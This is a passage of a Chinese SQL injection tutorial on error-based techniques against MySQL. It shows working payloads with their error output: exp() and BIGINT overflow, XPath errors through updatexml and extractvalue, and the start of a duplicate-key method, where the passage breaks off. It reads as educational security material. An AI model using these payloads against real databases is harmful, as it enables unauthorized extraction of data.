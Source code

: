 注入姿势：

```
mysql> select exp(~(select*from(select user())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'
```

利用这一特性，再结合之前说的溢出报错，就可以进行注入了。这里需要说一下，经笔者测试，发现在mysql5.5.47可以在报错中返回查询结果：

```
mysql> select (select(!x-~0)from(select(select user())x)a);
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'
```

而在mysql>5.5.53时，则不能返回查询结果

```
mysql> select (select(!x-~0)from(select(select user())x)a);
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not(`a`.`x`)) - ~(0))'
```

此外，报错信息是有长度限制的，在mysql/my_error.c中可以看到：

```c++
/* Max length of a error message. Should be
kept in sync with MYSQL_ERRMSG_SIZE. */

#define ERRMSGSIZE (512)
```

## 0x02 xpath语法错误

从mysql5.1.5开始提供两个[XML查询和修改的函数](https://dev.mysql.com/doc/refman/5.7/en/xml-functions.html)，extractvalue和updatexml。extractvalue负责在xml文档中按照xpath语法查询节点内容，updatexml则负责修改查询到的内容:

```
mysql> select extractvalue(1,'/a/b');
+------------------------+
| extractvalue(1,'/a/b') |
+------------------------+
|                        |
+------------------------+
1 row in set (0.01 sec)
```

它们的第二个参数都要求是符合xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里：

```
mysql> select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
mysql> select extractvalue(1,concat(0x7e,(select @@version),0x7e));
ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
```

## 0x03 主键重复

这里利用到了count()和group by在遇到rand()产生的重复值时报错的思路。网上比较常见的payload是这样的：
